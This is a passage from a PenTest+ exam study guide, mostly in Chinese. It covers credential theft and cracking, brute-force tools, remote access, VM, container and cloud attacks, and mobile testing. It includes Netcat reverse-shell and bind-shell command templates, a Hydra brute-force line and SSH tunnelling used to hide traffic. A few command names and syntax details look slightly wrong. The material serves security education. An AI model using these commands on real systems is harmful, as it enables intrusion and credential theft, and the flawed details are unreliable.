除了操作系统存储的凭据之外，许多第三方软件包存储的凭据你可能能够检索。示例包括 VNC 工具，如 UltraVNC 和 RealVNC，两者都在本地系统上存储密码。PuTTY，流行的 SSH 客户端，在 Windows 注册表中以明文形式存储代理凭据，路径为 `HKCU/Software/SimonTatham/Putty/Sessions`，用户的不良习惯意味着即使没有技术缺陷暴露凭据，你也可能在文件、未锁定的密码管理器或浏览器中找到它们。所有这些意味着，对你已获得访问权限的系统上安装的软件进行快速搜索，以查看是否存在已知的凭据泄漏问题可能是值得的。

### Default Account Settings

几乎每个为现代系统编写的安装或设置指南都建议更改默认帐户设置。尽管存在此事实，渗透测试人员始终发现系统、设备和应用程序继续使用原始密码设置默认帐户。默认密码列表，如 [www.defaultpassword.us](http://www.defaultpassword.us) 和 [`cirt.net/passwords`](https://cirt.net/passwords) 等网站上找到的列表，提供了一种快速查找许多常见网络设备和软件包的默认用户名和密码的简便方法。

帐户的实际设置也常常保持不变。这意味着某些帐户可能拥有比其预期用途所需的更大权限。在检查默认用户名和密码组合后，你可能还想验证单个用户拥有的权限——毕竟，接管具有管理权限的用户帐户通常比接管系统、设备或服务上的 root 或 administrator 帐户要无害得多！

## Credential Attacks and Testing Tools

在本书中，我们讨论了各种攻击密码和收集凭据的方法。攻击主机、应用程序和设备可能涉及各种凭据攻击方案。

### Credential Acquisition

一旦你攻破了系统，通常会想要获取本地凭据存储。对于 Windows，完成此操作最常用的工具是 Mimikatz，这是一种后期利用工具，既可作为独立工具使用，也可作为 Metasploit 的 Meterpreter 包的一部分使用。Mimikatz 提供一系列功能，包括直接从内存中读取哈希和密码的能力。

Kali Linux 还包含 `creddump` 包中的三个工具，可用于获取 Windows 凭据。它们是 `cachedump`，用于转储缓存凭据；`lsadump`，用于转储 LSA 秘密；以及 `pwdump`，用于转储密码哈希。你可以在 [`tools.kali.org/password-attacks/creddump`](https://tools.kali.org/password-attacks/creddump) 上阅读有关这三个工具及其使用方法的信息。

Linux 密码文件通常位于 `/etc/shadow`，但受到权限保护，防止非特权用户访问。如果你拥有 root 权限，复制它微不足道，因此在大多数情况下，攻击 Linux 凭据存储的关键部分是获得特权访问权限。

其他凭据获取方法也可以使用，包括将 SSH 等远程访问工具替换为捕获用户名和密码的木马版本，搜索使用 SSH 密钥登录的帐户并获取这些密钥（特别是如果它们不需要密码！），以及使用各种其他方法尝试拦截用户身份验证以获取用户名、密码和其他身份验证令牌。

### Offline Password Cracking

当你捕获哈希密码或存储在安全密码存储方案中的密码时，你需要使用密码恢复工具。这些离线密码破解工具使用各种破解方案，通过暴力破解机制查找与给定哈希匹配的密码。

常见的密码破解工具包括：

*   `Hashcat`，一种密码破解实用程序，使用图形处理单元 (GPU) 以非常高的速度破解密码。Hashcat 比传统工具（如 John the Ripper）快得多，后者受 CPU 限制，因此如果你有适当的硬件，Hashcat 是首选工具。Figure 10.6 显示 Hashcat 针对 Linux 密码文件运行。

*   `RainbowCrack`，一种基于彩虹表的破解包，适用于 Windows 和 Linux。彩虹表是预先计算的表，允许你搜索给定哈希，而不是暴力破解它。这意味着你可以为许多常见的哈希方案和字符集创建、下载或购买适当的彩虹表，然后简单地查找匹配的哈希和密码，完成破解任务的速度甚至比使用 Hashcat 等工具更快！

    

    FIGURE 10.6 Hashcat cracking Linux passwords

*   `John the Ripper` 多年来一直是渗透测试人员的首选密码恢复工具，并提供广泛的功能。通常简称为“John”，它自动检测许多常见哈希，同时支持现代 Linux 和 Windows 密码哈希，以及自定义字典和其他功能。如果 Hashcat 和彩虹表不起作用或不可用，John 是一个很好的备选方案，每个渗透测试人员都应该熟悉如何使用 John。

### Credential Testing and Brute-Forcing Tools

交互式或在线测试工具通常专注于登录暴力破解。它们尝试使用各种用户名和密码组合登录系统，直到成功。显然，任何设备完善的系统都会发出警报或阻止此类攻击，但许多桌面甚至一些服务器可能未设置为检测或采取行动来应对暴力破解攻击，因此如果你可以在不被发现的情况下使用这些工具，这些工具就很有用。常见的暴力破解工具包括：

*   `Hydra`，通常称为 thc-hydra，是一种暴力破解字典攻击工具，旨在针对各种协议和服务工作，包括 SSH、http/https、SMB，甚至数据库。基本 Hydra 用法很简单：

    ```
    hydra -l [userid] -p [wordlist] [target ip] -t [timing] [protocol]
    ```

*   `Medusa`，与 Hydra 非常相似，是一种支持各种协议和服务的暴力破解登录攻击工具。一般来说，如果 Hydra 对你有效，你就不需要使用 Medusa，因为功能非常相似，但 Medusa 确实有一些特定的改进功能。详情可在 [`foofus.net/goons/jmk/medusa/medusa.html`](http://foofus.net/goons/jmk/medusa/medusa.html) 上找到。

*   `Patator` 是与 Hydra 和 Medusa 同类的另一种工具。它可以暴力破解各种协议和服务，但可能更难以使用——事实上，作者将其描述为“不太适合脚本小子”。这意味着用户需要根据结果代码进行更多过滤。作为交换，Patator 提供了在特定情况下可能有用的各种功能。

### Wordlists and Dictionaries


# 构建自定义字典

构建自定义字典在你收集了大量目标组织信息时尤其有用。常用词、口号，甚至员工的个人信息都可以组合成一个字典，其破解密码的成功率将高于标准字典或通用字典列表。

`CeWL`，即自定义单词列表生成器，是一款 Ruby 应用程序，允许你根据 URL 和深度设置爬取网站，然后从其发现的文件和网页中生成字典。针对目标组织的网站运行 CeWL 可以帮助生成自定义单词列表，但通常你还需要根据自己的 OSINT 收集工作手动添加单词。

## 目录和文件名暴力破解

寻找所有可用于收集密码字典候选项的位置可能具有挑战性，而你平时用于 Web 应用程序渗透测试或信息收集的工具可能会派上用场。可用的工具很多，但 PenTest+ 考试目标中提到的两个常用工具如下：

* `W3AF`，即 Web 应用程序攻击与审计框架，是一款开源 Web 应用程序安全扫描器，其功能列表中包含目录和文件名暴力破解。

* `DirBuster` 是一款过时但有时仍有用的 Java 应用程序，旨在对 Web 服务器上的目录和文件名进行暴力破解。尽管 PenTest+ 目标专门列出了 DirBuster，但它最后一次更新是在 2013 年，其他替代方案更可能有用。

# 远程访问

创建并维护对计算机的远程访问是许多主机利用过程的关键部分，以便你能够利用系统，无论是为了横向移动还是从系统本身获取额外信息。有许多方法可以允许远程访问，但命令行 shell 访问是最流行的方法之一，因为它允许脚本编写，并且许多系统默认就内置了相关工具。

## SSH

许多渗透测试人员会将 SSH 作为默认的远程访问方法，因为它是加密的，且 SSH 连接到 Linux 服务器和设备非常普遍。虽然许多 Linux 系统提供 SSH 服务，但在横向移动时，SSH 对于端口转发也非常有用。一个简单的 `ssh` 远程端口转发命令可用于将远程端口 A 转发到攻击者的端口 B。

```
ssh -R[port A]:[host1]:[port B] [user]:[host2] 
```

类似技术可用于通过 `ssh` 隧道转发流量，从而向防御者隐藏攻击流量。

在进行主机利用时，捕获无需密码即可设置的 SSH 密钥、捕获 SSH 密钥的密码或破解该密码，都可能是有用的技术，因此如果你有权访问用户的 `./ssh` 目录，值得检查其中存在什么内容。

## Netcat 和 Ncat

`Netcat` 也是一种流行的远程访问工具，其小巧的体积使其在渗透测试期间易于移植到许多系统上。在 Linux 上使用 Netcat 设置反向 shell 很容易：

```
nc [IP of remote system] [port] -e /bin/sh
```

Windows 反向 shell 使用几乎相同的命令：

```
nc [IP of remote system] [port] -e cmd.exe
```

正如你所料，使用 `nc -l -p [port]` 也很容易将 Netcat 设置为监听器，但你可能希望直接将 shell 挂钩到它。这只需添加一个要执行的 shell 即可：

```
nc -l -p [port] -e /bin/sh
```

## Metasploit 和远程访问

幸运的是，Metasploit 使设置远程 shell 访问变得简单。内置了多种远程 shell 模块，包括绑定 shell（通过连接到服务端口即可访问的 shell）和反向 shell（连接回渗透测试人员选择的系统）。你可以根据目标操作系统，在 `payload/windows/` 或 `payload/linux` 下找到其中许多模块。图 10.7 显示了一个针对 Metasploitable 3 Windows 主机运行的带有反向 TCP shell 的 Windows 漏洞利用。

Metasploit Meterpreter 还包含多种远程连接选项，使其成为很好的默认选择。


图 10.7 Metasploit 反向 TCP shell

## 代理和 Proxychains

在渗透测试期间向系统发送和接收流量时，你可能希望隐藏正在发送的流量内容。你可以使用 `proxychains` 将任何流量通过代理服务器隧道传输，完全支持 HTTP、SOCKS4 和 SOCKS5 代理服务器，并能够将多个代理串联起来以进一步隐藏你的操作。这可以让你更有效地进入或退出受保护网络，同时向防御者隐藏你的流量。

`proxychains` 命令语法非常简单：

```
proxychains [application command]
```

不过，运行 `proxychains` 需要更多前期工作。要有效使用 `proxychains`，你需要通过 `/etc/proxychains.conf` 对其进行配置。默认情况下，`proxychains` 将使用 TOR（洋葱路由器），但你可以将其配置为使用其他代理。

# 攻击虚拟机和容器

虚拟机（VM）和容器都是渗透测试人员的潜在目标，但攻破底层虚拟机监控程序或容器主机是一个更理想的目标。毕竟，如果你能接管底层系统，就可以控制许多虚拟机或容器！`沙箱逃逸`的概念对此至关重要，因为攻破底层系统需要访问该系统，或者具备从虚拟机或容器逃逸出来攻击其运行所在系统的能力——即逃出沙箱。

## 虚拟机攻击

攻击单个虚拟机通常遵循与攻击物理系统相同的过程。事实上，在许多情况下，你在攻破它之前（甚至可能攻破之后也不会）都不知道自己正在攻击虚拟机、容器还是物理机。如果你怀疑已攻破虚拟机，可以查找系统是虚拟的常见迹象，包括呈现给操作系统的硬件。在许多情况下，检查网络接口卡或 VMware 工具或 VirtualBox 扩展等虚拟化插件，可以告诉你是否攻破了 VM。在 Windows 系统上，你可以通过使用 `wmic` 非常轻松地完成此操作：

```
wmic baseboard get manufacturer,product
```

使用此类技术进行检测可以快速识别虚拟化，如 图 10.8 所示，该命令是在运行 VirtualBox 的 Windows 系统上执行的。


图 10.8 在 Windows 系统上检测虚拟化

Linux 的 `system-detect-virt` 命令是一种简单方法，用于确定系统运行 `system-d` 时正在运行哪个虚拟化软件包。其他选项包括使用 `demidecode` 命令（可提供类似信息），以及检查磁盘 ID，使用 `ls -l /dev/disk/by-id` 列表命令查看系统是否被虚拟化，其输出将如 图 10.9 所示，该示例在基于 VirtualBox 托管的 Kali Linux 实例上演示。


图 10.9 在 Kali Linux 上检测虚拟化

在现实世界的生产系统环境中，虚拟化很少被混淆，因此在你遇到的大多数系统上都应该能够检测到虚拟化。一旦知道正在处理哪个虚拟机监控程序，就可以针对该特定环境可能可用的攻击方法进行研究。


底层虚拟化程序（hypervisor）可能是渗透测试人员的主要攻击目标，因为它们能够对系统提供管理控制权。事实上，攻破虚拟化程序可以解锁许多组织基础设施的重要部分。这意味着虚拟化程序漏洞是渗透测试人员的重要目标。在许多情况下，虚拟化程序可通过网络进行管理和监控，因此可以远程利用存在漏洞的虚拟化程序。此外，您已经熟悉的同类攻击——例如针对弱配置、共享、暴露或以其他方式存在漏洞的密码、基于社会工程学的攻击，当然还有拒绝服务攻击——同样也可能针对虚拟化程序，如同针对其他基础设施和系统一样。

## 虚拟化程序和虚拟机仓库漏洞

与任何其他软件或操作系统一样，虚拟化程序可能存在渗透测试人员可以利用的漏洞。远程代码执行漏洞甚至可以允许渗透测试人员利用虚拟化服务器。由于虚拟化服务器通常处于生产状态，一些组织可能会延迟打补丁，因此即使是关键缺陷也可能无法及时修补。

许多虚拟机（包括云实例）可从 AWS Marketplace、VMware Marketplace 和 Azure Marketplace 等仓库获取。这些仓库以及其他类似仓库（包括组织拥有或管理的仓库）都可能成为渗透测试人员的目标。如果将受攻破的虚拟机或实例放入市场，且其中包含的漏洞或利用方式未被识别，则该虚拟机或实例将可供采用和使用。作为渗透测试人员，您应将此视为一种潜在方法，以便在找到修改系统或获取仓库访问权限的机会时，保留或获取访问权限。

## 虚拟机逃逸

多年来，允许攻击者从虚拟机逃逸并直接攻击虚拟化程序的利用工具一直备受追捧，公开市场上可用的利用工具价格高昂。针对 VMware、Xen Project、Hyper-V 和 VirtualBox 已发现利用方式，但每种方式在被发现后不久都已修补。在大多数虚拟化环境中，虚拟机逃逸不太可能奏效，除非引入了新的利用方式，并且您能够在目标组织修补之前利用受攻破的主机。这意味着，大多数渗透测试人员攻击底层管理基础设施或寻找存在漏洞的虚拟化环境，以便访问虚拟化管理工具和系统，将比依赖虚拟机逃逸利用方式取得更大成功。

## 容器化攻击

针对操作系统级虚拟化工具（如 Docker 和 Kubernetes）的攻击通常始于攻破在容器中运行的应用程序。可以使用典型的渗透测试流程，包括端口和漏洞扫描以及服务利用。攻破容器后，您可以尝试访问容器的主机——事实上，在某些情况下，例如 NotSoSecure 提供的存在漏洞的 Docker 实例，您可以直接从存在漏洞的 Docker 容器中运行 Docker 客户端，并连接到运行在虚拟机上的 Docker 守护进程！与大多数渗透测试工作一样，您应仔细记录环境，检查配置错误以及暴露或存在漏洞的服务，然后在获得进一步访问权限后进行横向移动。

Kubernetes 和 Docker 等容器化工具也广泛部署为云服务。这些服务的架构各不相同，从直接支持 Docker 等容器化系统，到 Amazon 将 ECS（Elastic Container Service）与 Fargate（其无服务器计算环境）相结合的无服务器容器服务。虽然这些环境可能使用熟悉的底层工具，但要对环境进行完整的渗透测试，还需要专门了解云基础设施服务。幸运的是，在 PenTest+ 考试大纲的内容中，您需要关注的概念是与容器化工作负载相关的漏洞以及针对配置错误的容器化技术的攻击。

针对容器化工作负载漏洞的攻击侧重于容器中运行的应用程序本身。这意味着渗透测试人员可以利用现有的应用程序或服务漏洞，或利用 API，然后利用这些漏洞进行熟悉的攻击，例如向容器化环境安装工具。渗透测试人员应检查存在漏洞的服务。

针对配置错误的容器化技术的攻击与许多其他类型的配置错误类似。寻找配置错误的渗透测试人员将寻找诸如暴露的 API 服务、仪表板、开放代理和配置信息等内容。当然，管理工具未正确保护、权限设置不当或过于宽泛，或访问密钥等信息也非常理想。CyberArk 在 `https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1` 提供了常见配置错误项目及其他有用详细信息的列表，其配套文章位于 `https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-2` 和 `https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3`。

除了牢记 PenTest+ 考试大纲中列出的两大类别外，您还应注意，针对容器应用程序和底层 Linux 环境的攻击也可以被利用，并且容器作为网络的一部分运行，这意味着传统网络攻击也可能是针对容器化环境攻击的重要组成部分。

## 攻击云技术

随着云托管的发展，渗透测试人员现在需要规划如何评估和攻击云环境。本版 PenTest+ 考试大纲包含一个全新的子领域 3.4，旨在研究云技术的攻击向量并执行攻击。向云服务的大规模转变，包括基础设施即服务和软件或平台即服务，意味着您进行的几乎任何渗透测试都可能需要考虑第三方托管和云服务。

## 攻击云账户

`Credential harvesting` 可以通过多种方式进行，从传统的网络钓鱼活动到基于恶意软件的窃取。它还可以包括因泄露而直接获取凭据。无论凭据是如何获得的，这些凭据随后都可用于尝试登录不仅与凭据绑定的原始网站或服务，还可用于登录各种其他网站，因为密码重复使用现象频繁发生。多因素身份验证的使用越来越多，在许多情况下开始使此过程变得不那么有用，特别是对于管理凭据，但普通用户账户仍然可能是目标，因为多因素身份验证尚未一致推广。


# 一旦你拥有凭据

一旦你拥有凭据，对云服务的攻击通常包含某种形式的账户接管。账户接管就是字面意思：接管账户并使用它。作为渗透测试人员，账户接管在大多数情况下只是使用获取的凭据，但如果你能获取密钥（如 `SSH` 密钥或云 API 令牌），也可能使用密钥来实现。一旦你接管了账户，通常需要考虑下一步的权限提升攻击。在云环境中，这将涉及特定于服务的技术，这些技术可能利用安全弱点、薄弱或有缺陷的配置选择，或底层环境中的漏洞。

# 元数据服务攻击

另一种可能使用的特定攻击是元数据服务攻击。在 AWS 中，元数据服务用于向应用程序提供临时凭据，以便访问 S3（存储）以及其他服务。这为攻击者提供了一种潜在的访问 API 的手段，并可能导致其他凭据获取机会。

Azure 的元数据服务用于获取正在运行的实例的信息，例如运行的操作系统、名称、网络接口和存储设置，或系统本身的可配置数据集。虽然这些元数据不太有趣，但也可以用于收集 Azure 中运行系统的信息。

无论使用哪种云服务，元数据都可能提供有用的信息，即使在大多数情况下，云元数据服务可能不像前面提到的文章中描述的那样直接成为妥协的路径，也应将其视为潜在的有用信息来源。

# 攻击和利用配置错误的云资产

云服务中最常见的配置错误之一是由于身份和访问管理（IAM）层的设置不当或薄弱造成的。这些错误可能简单到不强制执行凭据和密码的最佳实践，但通常更具体于它们设计用来保护的服务或系统。过于宽泛的权限或组、对单个用户的手动配置导致这些用户权限不当，或在云资产上放置错误的安全组或策略，都是常见的错误。

对象存储是渗透测试人员可以找到大量数据的另一个常见领域。许多云服务提供用于存储文件和其他数据的对象存储——Amazon 的 S3 是常见的示例。当你评估对象存储时，通常会寻找以下内容：

* 公开可访问的存储
* 开放的上传访问权限
* 目录列表权限
* 开放的下载访问权限

虽然测试所需的技术因你正在测试的云服务而异，但命令行工具和脚本可以提供一种评估常见存储问题的强大方式。在 AWS 中，你可以使用以下命令检查 S3 存储桶允许的内容：

```
aws s3 ls s3://examplebucket –recursive –human-readable 
```

与 Linux 中的 `ls` 命令类似，你将获得容器中文件的列表，包括子目录（由于递归标志）以及更易于人类阅读的格式。无论你使用什么工具或测试什么云服务，其他渗透测试工作中熟悉的相同基本概念依然适用：你将收集信息，评估潜在弱点或配置错误，并利用它们来实现目标或为进一步实现目标采取步骤。

最后，PenTest+ 考试还要求你了解联合配置错误。联合允许组织使用或向其他服务提供商或消费者提供服务。与另一个实体联合会导致扩展信任，允许使用凭据或服务，而这种信任意味着配置错误可能导致数据泄露或提供意外访问。

联合通常用于本地 Active Directory 环境与 Azure AD 之间，特别是针对 Exchange 和其他 Microsoft 工具。在这种环境中，本地 Active Directory 联合服务（ADFS）服务器连接到 Azure，允许环境之间的身份验证和授权。由于这基本上是一个 Kerberos 环境，可以进行专注于签名证书和令牌的攻击，并且可以在本地和云环境中利用配置错误。

# 其他云攻击

PenTest+ 考试大纲列出了四种特定的攻击类型，用于针对云服务和系统：

* 云恶意软件注入攻击专注于中间人攻击，将用户重定向到攻击者的云服务实例。传统上，这通过跨站点脚本攻击来实现，但将恶意代码注入服务或代码管道，或将恶意工具添加到现有云基础设施中，也可以是完成此任务的途径。

* 资源耗尽和拒绝服务攻击被单独列出，但密切相关。尽管云服务通常设计为在负载下扩展，但仍有可能使其过载——要么是由于服务或服务器的设计或容量问题，要么是因为底层云服务无法处理额外负载。渗透测试人员不太可能被要求在渗透测试中执行拒绝服务和资源耗尽攻击，因为这会增加成本，并且在许多云操作中，负载测试通常作为服务验证和测试的一部分进行，而不是作为安全测试。

* 直接到源（D2O）攻击是一种分布式拒绝服务攻击，旨在绕过内容分发网络（CDN）或其他负载分发和代理工具，攻击底层服务基础设施。它们旨在否定 CDN 提供的保护和容量，使攻击者能够针对可扩展性较差或保护较弱的服务。它们依赖于攻击者确定服务的原始 IP 地址的能力，因此渗透测试人员需要专注于获取这些数据来执行攻击。与资源耗尽和其他拒绝服务攻击一样，由于攻击的成本和影响，D2O 攻击不太可能被执行。与实际攻击不同，渗透测试人员可能会被要求识别是否可以获取服务源数据作为其报告的一部分。

* 云环境中的侧信道攻击依赖于获得访问权限的能力，使渗透测试人员能够通过利用共享底层硬件来捕获信息。基础设施即服务（IaaS）环境在同一硬件平台上部署多个虚拟机，这意味着攻击者可能能够使用共享资源或破坏虚拟化或容器化系统本身来访问数据，而无需破坏目标系统本身。Figure 10.10 显示了过去在某些云环境中可能发生的一种侧信道攻击的简化示例。它利用了虚拟驱动器大小调整时的残留数据漏洞。幸运的是，IaaS 领域的主要参与者已通过使用加密卷和其他技术防止了此问题，以确保残留数据不再是问题。尽管如此，只要系统共享底层硬件，侧信道攻击始终会是一个问题。


FIGURE 10.10 Side‐channel attack against a virtual machine

# 用于云技术攻击的工具

对于 PenTest+ 考试，你需要熟悉四种专门用于云渗透测试的工具，以及一个广泛的类别——SDK。虽然你不需要详细了解如何使用这些工具，但你应该了解它们是什么以及这类工具的存在。


# ScoutSuite

`ScoutSuite` 是一个开源的多云审计工具。它利用 API 收集配置数据。与执行主动扫描的工具不同，这意味着你可以运行 `ScoutSuite` 而无需通知云提供商有关渗透测试或扫描活动。由于它使用 API 访问，它需要一个适当特权的系统来进行其用于审计的 API 调用。它包含默认规则集，旨在识别常见的错误配置，并支持编写自定义规则的功能，以便识别你可能希望跟踪（或在渗透测试中发现）的问题。你可以在 [`github.com/nccgroup/ScoutSuite`](https://github.com/nccgroup/ScoutSuite) 上阅读更多关于 `ScoutSuite` 的内容。

# CloudBrute

`CloudBrute` 是一款旨在识别多个云提供商环境中的应用程序和存储的云枚举工具。`CloudBrute` 无需凭据即可运行，旨在尝试常见的暴力破解技术，以帮助枚举云资源，例如字典列表和变异功能。你可以在 [`github.com/0xsha/CloudBrute`](https://github.com/0xsha/CloudBrute) 上阅读更多详细信息。

# Pacu

`Pacu` 是一个专门针对 Amazon AWS 的利用框架。它使用多个模块来执行诸如测试权限提升或干扰监控工作等操作。它还可以通过 IAM 用户账户修改和安全组植入后门，并且内置了工具，可使用 AWS 原生系统管理工具提供远程代码执行功能。Rhino Security Labs 在 [`rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework`](https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework) 上提供了更多关于 `Pacu` 的详细信息。

# Cloud Custodian

`Cloud Custodian` 并非旨在作为渗透测试工具——事实上，它旨在允许用户保护其云环境。不过，这并不意味着它在渗透测试中没有发挥作用。`Cloud Custodian` 可以提供的关于云环境的报告可以识别渗透测试人员随后可以利用以获取进一步访问权限的问题。你可以在 [`cloudcustodian.io`](https://cloudcustodian.io) 上阅读更多关于 `Cloud Custodian` 及其用法的内容。

最后，你需要考虑原生云 `software development kits` (SDK)。主要云服务提供自己的软件开发工具包，这些工具包提供可用于创建利用其云功能的工具的工具和库。这些 SDK 可以让你直接控制云环境、管理虚拟机和服务、配置安全功能或其他组件，或者提供其他对渗透测试人员来说可能非常有用的功能。你可以在 [`cloud.google.com/sdk`](https://cloud.google.com/sdk) 上阅读更多关于 Google SDK 的内容，Amazon 在 [`aws.amazon.com/tools`](https://aws.amazon.com/tools) 上提供其工具，Azure 的工具可以在 [`azure.microsoft.com/en-us/downloads`](https://azure.microsoft.com/en-us/downloads) 上找到。许多其他提供商和服务也有自己的 SDK，因此如果你的目标使用其他东西，花时间去看看现有的东西是值得的。

# 攻击移动设备

移动设备占许多网络上设备的比例不断增加，并且它们处于组织拥有的设备和个人拥有的设备之间的复杂位置。这意味着管理实践和组织控制可能不足，但设备在某些渗透测试中也可能超出范围。

尽管存在这些复杂性，移动设备是组织足迹的重要组成部分，可以提供有用的信息以及进入组织的途径。由于它们通常有自己的互联网连接，它们还可以提供绕过组织安全防御的桥梁或路径。因此，当你考虑 PenTest+ 考试针对移动设备审查的领域时，请牢记你可能如何利用它们来获取进一步访问权限，以及如果你获得访问权限，你会寻找什么数据。

PenTest+ 考试大纲审查了针对移动设备的三种特定类型的攻击：

## 逆向工程

`Reverse engineering` 过程涉及分析移动应用程序以查找有用信息或识别漏洞。反编译器以及像 `MobSF` 这样的工具可以提供静态和动态代码分析，可用于分析应用程序。当移动代码不是编译的二进制文件，而是编写的解释脚本、HTML 或 JavaScript 时，你也可以直接审查和分析代码，而无需额外工具。`Reverse engineering` 可能是一个耗时的过程，因此渗透测试人员通常会寻找常见目标，例如嵌入的密钥、密码或 API 信息，以及其他可能对进一步渗透测试有用的细节。代码中包含的目录、服务器信息和其他数据元素可用于进一步的数据收集或利用。

## 沙箱分析

`Sandbox analysis` 涉及在受控环境中运行代码甚至完整的设备镜像。沙箱可用于监控应用程序的行为、它访问的内容以及运行时发生的情况。虽然这通常用于分析恶意软件，但在审查应用程序时，它也可以为渗透测试人员提供大量信息。iOS 和 Android 也都提供原生应用程序沙箱，因此渗透测试人员可能需要考虑他们是否能够突破应用程序沙箱并绕过 `SELinux`/`SEAndroid` 等控制。

## 垃圾邮件

`Spamming` 可能不是你立即想到的与移动设备相关的事情，但它可以作为针对移动设备的攻击的一部分以多种方式使用。首先，垃圾短信、电子邮件或电话可以作为网络钓鱼攻击或其他社会工程学练习的一部分使用。移动用户可能会被诱骗点击链接或安装恶意应用程序，从而允许渗透测试人员获得对设备的访问权限。其次，垃圾邮件是凭证收集攻击的常见部分。尽管 PenTest+ 考试大纲没有具体说明垃圾邮件可能如何用于攻击移动设备和应用程序，但你应该意识到这是考试中的一个潜在答案和话题。

除了针对移动设备和应用程序的三种攻击类型之外，你还需要了解考试中许多常见的漏洞类别。你应该准备好解释每个漏洞的基础知识以及它们在渗透测试中的含义。

## 使用不安全的存储

你需要考虑的第一个漏洞是 `use of insecure storage`。这可以采取多种形式；它可以是使用本地存储（例如可移动 microSD 卡和未加密的数据），也可以包括通过云服务、API 或对象存储进行的存储，但由于密钥或 API 暴露，应用程序未对其进行适当保护。当移动应用程序或操作系统存储任何类型的数据时，渗透测试人员可能有机会访问它。因此，你需要考虑应用程序使用和存储什么数据，数据存储在哪里以及如何存储，以及你如何可能获得访问权限。虽然易于访问位置的未保护数据是最容易的选择，但你也可能能够注入代码、使用跨站点脚本攻击、绕过身份验证，或逆向工程应用程序本身以获取静态数据的访问权限。

## 密码漏洞

`Passcode vulnerabilities` 可能发生在操作系统或应用程序级别。它们可能简单到允许通过电子邮件重置或其他访问方法进行绕过，也可能更复杂，需要使用类似 `Frida` 的工具进行注入以修改 JavaScript 身份验证过程。如果你可以物理访问移动设备，你甚至可能只需将设备倾斜到光线下，查看输入密码的屏幕上最频繁的指纹位置，并根据这些指纹对密码做出几个猜测！


# Certificate Pinning

`Certificate pinning` pairs a host with a x.509 certificate. Attacking certificate pinning practices may require adding additional certificates or keys to the devices or getting users to do so to allow you to bypass a pinned certificate. Social engineering and attacking the technical infrastructure of an organization to gain control of device management capabilities are both ways to accomplish this task.

# Known Vulnerable Components

With a complex ecosystem and multiple operating systems to keep track of, it isn't uncommon to discover that developers and organizations are using `known vulnerable components`. That may be because of `dependency vulnerabilities`, where a component that the application or device OS relies on is vulnerable, or it may be because of complexities like those found in the Android ecosystem with its many providers and custom OS versions that result in `patching fragmentation`. In other words, many different versions result in a complex set of versions that tend to result in patches not being provided, not being compatible, or not being installed, providing an opportunity for penetration testers.

# Execution of Activities Using Root

`Execution of activities using root` is a danger for any operating system, but in mobile operating systems applications are typically partitioned away from this by sandboxing systems like `SEAndroid`/`SELinux`. That doesn't mean a penetration tester can't take advantage of root‐level access; it just means that this attack method will typically be more difficult. Attacks against the OS itself, however, may be possible via other methods—in fact, many rootkit tools take advantage of this type of flaw. Thus, for many mobile devices you're somewhat more likely to be tackling this type of attack through the OS or OS‐native components rather than third‐party applications. A related issue is when there is an `over‐reach of permissions` or overly broad permissions are set. Again, this is a common issue with most operating systems, and one that you'll need to be on the lookout for. Checking what an application or service can do, and what user it runs as, can provide a clear hint at whether this may be a flaw you can leverage.

# Biometrics Integrations

Biometrics integrations are common for mobile devices and mobile applications. If you're an iOS user, you're likely used to seeing FaceID as a possibility for an increasing number of application authentication processes. Those integrations may be vulnerable, and you may be able to inject spurious authentication approvals into them. Analyzing how biometric authentication is handled, where the handoff and validation occurs, and what is done with that information can provide a useful way to bypass passcode authentication. As with many attacks, if you have physical access to the device you may also have other options—in some cases, simply having a picture of a user or a copy of their fingerprint may be able to unlock a device, although modern facial recognition and fingerprint readers are designed to be resistant to that type of attack.

# Business Logic Vulnerabilities

`Business logic vulnerabilities` can also be targeted by penetration testers. Although these aren't specific to mobile devices, you'll need to be ready to think about them in a mobile device context. That may include leveraging business logic flaws in mobile applications, or how mobile apps may differ from normal web applications with different code bases and libraries to take advantage of.

# Compromising Mobile Devices

Compromising mobile devices themselves is a less common path for most penetration testers. In many cases, mobile devices are personally owned, which often removes them from the scope of a penetration test. Mobile device pentesting can also involve the devices, management tools, and applications. The PenTest+ exam objectives primarily focus on Android application testing tools, but iOS application attacks are similar.

# Attacking Mobile Applications

Attacking mobile applications involves many of the same techniques used for web and other application attacks. Obtaining access to locally stored data, executing SQL injection attacks, capturing unencrypted or poorly protected data in transit, and targeting encryption keys are all techniques that application penetration testers will use. Application testing techniques also include static analysis (of code), dynamic analysis (of a running application), network traffic capture and assessment, SSL pinning and downgrade attacks, and methods for obtaining root access via application exploits.

# Specialized Tools for Mobile Device Testing

When mobile device applications are in testing scope, specialized tools can help exploit Android and iOS devices. There are fewer common open source tools than you might find for similar tasks on desktop operating systems, but for the PenTest+ exam, you are expected to be familiar with quite a few. As you review this list, remember that this section of the exam outline requires you to explain common attacks and vulnerabilities, so consider how you'd use these tools as part of an attack as well as what vulnerabilities you could exploit using them.

## Burp Suite

`Burp Suite` is a web application vulnerability scanning and penetration testing toolset. There are multiple versions, including a free community version. It is worth noting that this tool is something you're more likely to associate with web application security than with mobile applications, but it appears in the mobile section of the PenTest+ outline. In that context, you should remember web‐based mobile apps and underlying services. You can read more about it and the various `Burp Suite` versions at [`portswigger.net/burp`](https://portswigger.net/burp).

## MobSF

`MobSF`, the Mobile Security Framework, is an automated Android/iOS and Windows penetration testing, security assessment, and malware analysis framework. It can perform both static (source code) and dynamic (running application) analysis, and it supports a wide range of application binaries. Like most modern tools, it also supports inclusion in a continuous integration/deployment model, which means you may encounter it both as a tool and as part of the environment at target sites. You can find the tool at [`github.com/MobSF/Mobile-Security-Framework-MobSF`](https://github.com/MobSF/Mobile-Security-Framework-MobSF).

## Postman

`Postman` is an API (application programming interface) testing tool that can perform stress testing, API functionality testing, and a variety of other API validation tasks. Like `Burp Suite`, it's not really a mobile specific tool and is more likely to be useful in the context of web application and general API testing. More detail can be found at [`postman.com`](https://postman.com).

# Ettercap

`Ettercap` is a suite of tools designed to carry out on‐path (or man‐in‐the‐middle) attacks. Although it is useful against mobile applications, it can also be used against a wide variety of systems and services. It is open source and can be downloaded from [`www.ettercap-project.org`](https://www.ettercap-project.org).

# Frida

